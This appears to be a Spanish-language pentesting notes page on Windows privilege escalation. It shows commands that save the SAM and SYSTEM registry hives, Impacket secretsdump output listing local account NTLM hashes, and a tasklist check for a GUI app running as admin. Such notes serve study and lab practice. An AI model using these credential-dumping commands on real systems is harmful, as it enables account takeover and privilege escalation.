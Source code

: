 ----

## Administrador de cuentas de seguridad SAM

```
reg save HLKM\SYSTEM system.bak
reg save HLKM\SAM sam.bak
```

Dumping

```
❯ secretsdump.py -system SYSTEM -sam SAM local
Impacket v0.9.23.dev1+20210427.174742.fc72ebad - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xf4fb8f729017b7d8a540e99f6dabea79
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```

----

## Apliacciones de GUI inseguras

```
tasklist /V | findstr mspaint.exe
mspaint.exe                   4872 RDP-Tcp#1                  2     29,088 K Running         WIN-QBA94KB3IOF\admin                                   0:00:00 Untitled - Paint
```

![paint](../assets/imgs/winp/paint.png)
